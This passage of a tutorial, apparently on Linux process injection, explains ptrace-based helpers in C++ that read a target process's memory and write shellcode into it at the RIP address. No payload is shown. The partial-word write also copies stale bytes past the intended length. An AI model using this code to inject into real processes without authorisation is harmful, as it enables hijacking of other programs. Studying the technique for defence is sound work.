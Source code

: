 Then we read full `sizeof(long)` chunks:     

```cpp
int i = 0;
while (i < len / sizeof(long)) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, sizeof(long));
  i++;
}
```

As you can see, here, we reads a `long` (typically `8 bytes` on `64-bit` systems) from the target process at a specific memory address. Then, the read data is copied into the `buffer` using `memcpy`. This continues until all full `sizeof(long)` chunks are read.     

Then, handle remaining bytes:     

```cpp
int remaining = len % sizeof(long);
if (remaining) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, remaining);
}
```

The logic is simple: if the length (`len`) is not a multiple of `sizeof(long)`, there may be leftover bytes to read. The function handles these remaining bytes by reading another full `long` from memory and copying only the necessary number of bytes into the buffer.     

So, as a result, the entire memory block (`len` bytes) from the target process starting at `addr` is now stored in `buffer`.      

With `PTRACE_POKEDATA`, we inject our custom shellcode into the target process's memory at the `RIP` address.     

```cpp
// write memory into the target process
void write_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), sizeof(long));
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), remaining);
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
  }
}
```
